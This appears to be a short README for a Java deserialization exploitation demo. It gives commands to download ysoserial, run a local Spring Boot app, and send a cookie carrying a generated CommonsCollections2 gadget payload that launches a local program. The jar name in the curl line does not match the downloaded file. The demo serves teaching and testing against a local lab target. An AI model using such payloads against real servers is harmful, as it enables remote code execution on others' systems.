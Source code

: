 A simple example of Java Serialized Objects (JSO) 
exploitation.

To test

    $ wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
    $ mvn spring-boot:run
    $ curl -v http://localhost:8080/hello -H "Cookie: USER=$(java -jar ysoserial-master-55f1e7c35c-1.jar CommonsCollections2 leafpad | base64 -w 0)"

# References
 
 - [ysoserial](https://github.com/frohoff/ysoserial)
 - [A great article by rapid7](https://www.rapid7.com/research/report/exploiting-jsos/)
